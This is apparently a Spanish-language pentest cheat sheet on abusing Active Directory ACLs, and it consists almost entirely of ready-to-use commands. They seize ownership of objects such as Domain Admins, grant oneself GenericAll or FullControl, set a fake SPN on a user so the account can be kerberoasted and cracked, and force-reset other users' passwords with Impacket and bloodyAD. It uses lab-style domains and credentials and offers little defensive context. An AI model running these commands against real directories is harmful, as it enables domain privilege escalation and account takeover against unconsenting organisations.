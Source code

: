 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sakshi' -target-dn 'CN=ankur,CN=Users,DC=ignite,DC=local' 'ignite.local'/'sakshi':'Password@1' -dc-ip 192.168.1.6

#### Validar el new owner

    ldapsearch -x -H ldap://<IP_O_SERVIDOR> -D "usuario@dominio.com" -w "contraseña" -b "DC=dominio,DC=com" "(distinguishedName=CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com)" nTSecurityDescriptor
### BloodyAD

#### Cambiar el owner

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-owner -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner"

#### Darse full rights

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-permission -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner" -p "GenericAll"

#### Validar ownership y GenericAll

    bloodyAD -u "example\admin" -p "Password123" -d example.local get-object-acl -t "CN=JohnDoe,OU=Users,DC=example,DC=local" | grep -E "(Owner|GenericAll)"
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'roma' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "roma" -PrincipalIdentity "sameer"
#### Validar el nuevo owner

    (Get-ObjectACL -Identity "CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -ResolveGUIDs).Owner
    
### AD powershell
    $user = Get-ADUser -Identity "UsuarioAD" -Properties * 
    $acl = Get-ACL -Path "AD:\$($user.DistinguishedName)"
    $newOwner = (New-Object System.Security.Principal.NTAccount("Dominio\NuevoPropietario"))
    $acl.SetOwner($newOwner)
    Set-ACL -Path "AD:\$($user.DistinguishedName)" -AclObject $acl

#### Validar el nuevo owner

    $acl.Owner

#### Dar full rights
    Set-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -AclObject (Get-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local").AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule -ArgumentList (New-Object System.Security.Principal.NTAccount('Dominio\NuevoOwner')), "GenericAll", "Allow"))

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'roma' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "ankur" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol ldap contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
